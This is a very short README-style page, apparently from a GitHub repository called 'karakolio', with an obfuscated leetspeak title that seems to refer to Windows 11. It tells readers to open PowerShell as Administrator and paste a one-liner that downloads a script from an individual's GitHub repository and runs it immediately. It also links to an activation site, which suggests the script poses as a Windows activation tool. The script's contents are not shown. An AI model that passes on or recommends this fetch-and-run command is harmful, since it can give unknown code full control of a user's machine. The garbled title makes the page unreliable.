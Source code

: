 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

# Installing by using PowerShell as Administrator

[work](https://get.activated.win/)

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex
```
